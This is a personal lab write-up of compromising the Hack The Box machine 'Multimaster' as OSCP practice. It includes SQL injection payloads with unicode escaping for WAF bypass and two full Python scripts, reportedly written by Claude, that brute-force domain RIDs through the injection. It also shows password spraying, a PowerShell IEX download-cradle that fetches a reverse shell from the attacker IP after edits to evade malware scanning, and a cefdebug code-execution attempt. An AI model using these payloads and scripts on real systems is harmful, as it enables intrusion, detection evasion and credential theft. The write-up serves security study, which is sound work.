

`0x0105000000000005150000001c00d1bcd181f1492bdfc236250c0000`

Script from "Signed" machine

```
python3
```
```python
from impacket.dcerpc.v5.dtypes import SID
raw_sid = '<raw SID>'
sid = SID(bytes.fromhex(raw_sid))
sid.formatCanonical()
```

Error: `non-hexadecimal number found in fromhex()`. It seems the format is different

Need to strip the `0x` byte



SID: `S-1-5-21-3167813660-1240564177-918740779-3109`
`zac` RID: 3109

Query to convert SID to domain account

```
a' union select 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236250c0000),3,4,5-- -
```
|
```
\u0061\u0027\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0053\u0055\u0053\u0045\u0052\u005f\u0053\u004e\u0041\u004d\u0045\u0028\u0030\u0078\u0030\u0031\u0030\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0030\u0035\u0031\u0035\u0030\u0030\u0030\u0030\u0030\u0030\u0031\u0063\u0030\u0030\u0064\u0031\u0062\u0063\u0064\u0031\u0038\u0031\u0066\u0031\u0034\u0039\u0032\u0062\u0064\u0066\u0063\u0032\u0033\u0036\u0032\u0035\u0030\u0063\u0030\u0030\u0030\u0030\u0029\u002c\u0033\u002c\u0034\u002c\u0035\u002d\u002d\u0020\u002d
```



Works. 

I dont have the python scripting skills necessary to build this incrementing RID brute force tool.

(Claude solution)
```python
import requests, struct, time

# ---- CONFIG ----
TARGET_IP = "10.129.95.200"               
HOST      = "multimaster.megacorp.local"
URL       = f"http://{HOST}/api/getColleagues"
HEADERS   = {"Content-Type": "application/json;charset=utf-8", "Host": HOST}
DOMAIN_SID = "S-1-5-21-3167846428-1240530385-919322923"
RID_RANGE  = range(1000, 4000)
DELAY      = 1
# ----------------

def sid_to_hex(sid_str):
    parts = sid_str.split('-')[1:]
    rev  = int(parts[0]); auth = int(parts[1])
    subs = [int(x) for x in parts[2:]]
    b  = struct.pack('B', rev) + struct.pack('B', len(subs))
    b += auth.to_bytes(6, 'big')
    for s in subs:
        b += struct.pack('<I', s)
    return b.hex()

def encode_unicode(s):
    out = ""
    for c in s:
        out += c if c in " ,0123456789x" else f"\\u{ord(c):04x}"
    return out

def resolve(rid):
    hexsid  = sid_to_hex(f"{DOMAIN_SID}-{rid}")
    payload = f"a' union select 1,SUSER_NAME(0x{hexsid}),3,4,5-- -"
    enc     = encode_unicode(payload)
    body    = '{"name":"' + enc + '"}'
    try:
        r = requests.post(URL, data=body, headers=HEADERS, timeout=15)
    except requests.exceptions.RequestException as e:
        print(f"[!] RID {rid}: request error: {e}")
        return None

    #if r.status_code == 403 or "blocked" in r.text.lower():
       # print(f"[!] RID {rid}: BLOCKED (status {r.status_code}) — backing off 60s")
       # time.sleep(60)
      #  return None

    try:
        data = r.json()
    except Exception:
        print(f"[?] RID {rid}: non-JSON response (status {r.status_code})")
        return None

    for row in data:
        name = row.get("name")
        if name and name != "2":        # "2" = the literal placeholder when null
            return name
    return None

print(f"[*] Enumerating RIDs {RID_RANGE.start}-{RID_RANGE.stop-1} on {HOST}")
found = []
for rid in RID_RANGE:
    name = resolve(rid)
    if name:
        print(f"[+] RID {rid:>5}  ->  {name}")
        found.append((rid, name))
    else:
        # lightweight progress so you see it's alive
        if rid % 25 == 0:
            print(f"    ... checked up to RID {rid}")
    time.sleep(DELAY)

print("\n[*] Done. Users found:")
for rid, name in found:
    print(f"    {rid:>5}  {name}")
```

*Edited loop to add delay of half second between requests to evade WAF block*

Save and run it

```
python3 RIDbrute.py
```

Checking from 1000 to 4000 RID
Delay of 5 seconds after 403 in previous tries with less delay

3000 requests x 5 seconds = 15,000 seconds = ~4 hours

This will take a least 4 hours

Batch

```
a' UNION ALL SELECT 3109,SUSER_NAME(0105000000000005150000001c00d1bcd181f1492bdfc236250c0000),3,4,5 UNION ALL SELECT 3110,SUSER_NAME(0105000000000005150000001c00d1bcd181f1492bdfc236250c0000),3,4,5-- -
```

Not working

```
a' union all select 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236250c0000),3,4,5 union all select 1,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236250c0000),3,4,5-- -
```



Batch works. With batch can accelerate the brute forcing as can include several union queries in one request, decreasing number of requests and therefore the number of 5 second delays, which is the main thing slowing it down.

After discussing with Claude (AI), it created a new version of the script adding the batch logic, with control over various parameters, starting with a batch of 10 queries for RIDs per request.

```python
#!/usr/bin/env python3
import requests, struct, time

# ---------------- CONFIG ----------------
TARGET_IP  = "10.129.95.200"                 # <-- set current box IP
HOST       = "multimaster.megacorp.local"
URL        = f"http://{HOST}/api/getColleagues"
HEADERS    = {"Content-Type": "application/json;charset=utf-8", "Host": HOST}
RID_START  = 3105          # validation range first (includes known RID 3109)
RID_END    = 3114
BATCH      = 10
DELAY      = 5
OUTFILE    = "multimaster_users.txt"
DEBUG      = True           # set False after validation
# ----------------------------------------

# Fixed prefix taken DIRECTLY from the known-good SID (RID 3109 = MEGACORP\zac).
# Everything before the RID is constant; we only append the little-endian RID.
SID_PREFIX = "0105000000000005150000001c00d1bcd181f1492bdfc236"

def sid_to_hex(rid):
    return SID_PREFIX + struct.pack('<I', rid).hex()

LITERAL = set(" ,0123456789x()")
def enc(s):
    return ''.join(c if c in LITERAL else f"\\u{ord(c):04x}" for c in s)

def build_plain(rids):
    frags = [f"union all select {rid},SUSER_NAME(0x{sid_to_hex(rid)}),3,4,5" for rid in rids]
    return "a' " + " ".join(frags) + "-- -"

def build_payload(rids):
    return enc(build_plain(rids))

def send(rids, attempt=1):
    body = '{"name":"' + build_payload(rids) + '"}'
    if DEBUG:
        print("\n=== PLAIN SQL ===")
        print(build_plain(rids))
        print("=== RAW RESPONSE (first 1200) ===")
    try:
        r = requests.post(URL, data=body, headers=HEADERS, timeout=30)
    except requests.exceptions.RequestException as e:
        print(f"[!] net error {rids[0]}-{rids[-1]}: {e}")
        return None
    if DEBUG:
        print("status", r.status_code)
        print(r.text[:1200])
        print("=== END ===\n")
    if r.status_code == 403 or "blocked" in r.text.lower():
        if attempt <= 3:
            wait = 60 * attempt
            print(f"[!] BLOCKED {rids[0]}-{rids[-1]} -> wait {wait}s, retry {attempt}/3")
            time.sleep(wait)
            return send(rids, attempt + 1)
        print(f"[x] giving up on {rids[0]}-{rids[-1]}")
        return None
    if r.status_code != 200:
        print(f"[?] status {r.status_code} at {rids[0]}-{rids[-1]}")
        return None
    try:
        return r.json()
    except Exception:
        print(f"[?] non-JSON at {rids[0]}-{rids[-1]} (len {len(r.text)}) - lower BATCH?")
        return None

def parse(rows):
    out = {}
    if not isinstance(rows, list):
        return out
    for row in rows:
        rid, name = row.get("id"), row.get("name")
        if name and str(name) not in ("2", "null") and str(rid).isdigit():
            out[int(rid)] = name
    return out

def main():
    rids = list(range(RID_START, RID_END + 1))
    total = (len(rids) + BATCH - 1) // BATCH
    print(f"[*] RIDs {RID_START}-{RID_END} ({len(rids)}), batch={BATCH} -> ~{total} requests")
    found = {}
    fh = open(OUTFILE, "a")
    for i in range(0, len(rids), BATCH):
        batch = rids[i:i+BATCH]
        rows = send(batch)
        hits = parse(rows) if rows is not None else {}
        for rid, name in sorted(hits.items()):
            if rid not in found:
                print(f"[+] RID {rid:>5}  ->  {name}")
                fh.write(f"{rid}\t{name}\n"); fh.flush()
                found[rid] = name
        done = min(i + BATCH, len(rids))
        print(f"    .. {batch[0]}-{batch[-1]} | {done}/{len(rids)} | {len(found)} users")
        time.sleep(DELAY)
    fh.close()
    print(f"\n[*] Finished. {len(found)} users -> {OUTFILE}")
    for rid, name in sorted(found.items()):
        print(f"    {rid:>5}  {name}")

if __name__ == "__main__":
    main()
```

Testing it with known RID 3109 for zac. Not working.

As automation is not working, I could do it manually, but would take several hours and think is not worth it as my current goal is to practice for OSCP+, and from my knowlegde and what Ive read this is not what OSCP labs are like, so will take a hint (more like a cheat) of the new domain accounts that would have been resolved from RID brute forcing.

---
Cheat: https://www.youtube.com/watch?v=iwR746pfTEc hour 1:19:50
Users: `tushikikatomo`, `andrew`

---

Creating `new_users.txt` and checking with discovered passwords

```
nxc smb multimaster -u new_users.txt -p loot/passwords.txt
```



Valid credential
```
tushikikatomo
```
```
finance1
```

Checking against winrm

```
nxc winrm multimaster -u 'tushikikatomo' -p 'finance1'
```



Valid via WinRM

Connecting to target system

```
evil-winrm -i multimaster -u 'tushikikatomo' -p 'finance1'
```

Connected. Context and proof



Connected as `tushikikatomo` to the target system `multimaster` with IP: 10.129.96.37

Capture user flag

```
type C:\Users\alcibiades\Desktop\user.txt
```



user.txt: `0f0b8e61cd5bcdcaa385bdd1d17ff4b5`

```
whoami /all
```

There is no special privilege besides known Remote Management Users group membership

Bloodhound enumeration

Using SharpHound collector

Upload using http server

```
python3 -m http.server
```

Download on target

```
curl http://10.10.15.221:8000/SharpHound.exe -o SharpHound.exe
```

Run

```
.\Sharphound.exe -c all -d MEGACORP.LOCAL --zipfilename megacorp
```

Download to target system

```
download 20261110123805_megacorp.zip
```

Downloaded

Stop: 10 20:20

Start: 11 8:30

Start BloodHound CE web interface

```
curl -L https://ghst.ly/getbhce -o docker-compose.yml
sudo docker compose up
```

Wait to load, browse http://localhost:8080/ui/login

Login with `admin:<terminal_output_password>`

Upload the zip

Adding `tushikikatomo` to owned objects:

Explore > Search: "TUSHIKIKATOMO@MEGACORP.LOCAL" -> Right click, add to owned

Refresh data:

Administration > BH config > Analyze Now

Explore > Cypher > "Shortest paths from Owned objects"

There are several objects and links


This is the only chain I can highlight, although it seems PSRemote is basically the same as being a member of RMU. Then DCSync from DC, would need DA credential or similar elevated privilege

(Referenced: hour 1:45:00)

Back to shell via WinRM

```
Get-process
```



Identify various "Code" processes. VScode

List contents of Program FIles (x86)


`Microsoft Visual Studio 10.0`

VScode can apparently be exploited to execute code using CEF debug: https://github.com/taviso/cefdebug

Download and serve it with http server

Download in target system

```
curl http://10.10.15.221:8000/cefdebug.exe -o cefdebug.exe
```

Copy `nishang/Shells/Invoke-PowerShellTcp.ps1`, edit with attacker IP and port


Serve it

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.15.221:8000/Invoke-PowerShellTcp.ps1')
```

`ScriptContainedMaliciousContent`

Change function name (first line `function Invoke...`) and file name to shell.ps1

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.15.221:8000/shell.ps1')
```

Again: `ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand`

Remove example lines mentioning `Invoke-*`

Run again

Listener
```
rlwrap nc -nlvp 9001
```


Now works

Test the command execution with CEFdebug with a ping to attacker system

```
./cefdebug.exe --code "process.mainModule.require('child_process').exec('ping 10.10.15.221')" --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

```
sudo tcpdump -i tun0 icmp
```

Not working. Done with this test

End: 2026-11-11 10:00

---
#### Post-testing
##### Time frame
Start: 2026-11-09 16:40
Stop: 2026-11-09 18:35
Start: 2026-11-09 19:20
Stop: 2026-11-09 20:15

Start: 2026-11-10 10:30
Stop: 2026-11-10 20:20

Start: 2026-11-11 8:30
End: 2026-11-11 10:00

Total time: 14h 10min
Aproximate total time testing (excluding undocumented breaks in 2026-11-10): 10h

##### Techniques
- Domain accounts validation via Kerberos
- UNION based SQLi with WAF bypass using unicode escape and time delay
	- Enumerate database -> Passwords
	- Enumerate domain users via RID brute forcing -> Domain accounts
- BloodHound enumeration with SharpHound collector

##### Sources
- Text to Unicode escape converter: https://www.rapidtables.com/code/text/unicode-characters.html
- Reference (IppSec video walkthrough): https://www.youtube.com/watch?v=iwR746pfTEc
- CEF debug: https://github.com/taviso/cefdebug (not tested)

##### Scripts

BurpSuite Turbo Intruder script to fuzz special characters, with delay between requests (Used to identify blocked characters):

```python
import time

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           engine=Engine.THREADED)

    for char in '~!@#$%^&*()-_+={}][|\`,./?;:<>':
        engine.queue(target.req, char)
        time.sleep(0.5)   # Half a second between requests
        
def handleResponse(req, interesting):
        table.add(req)
```

Covert text string to Unicode escape (Used to convert SQL queries):

```python
s = "<text>"
print(''.join(f"\\u{ord(c):04x}" for c in s))
```
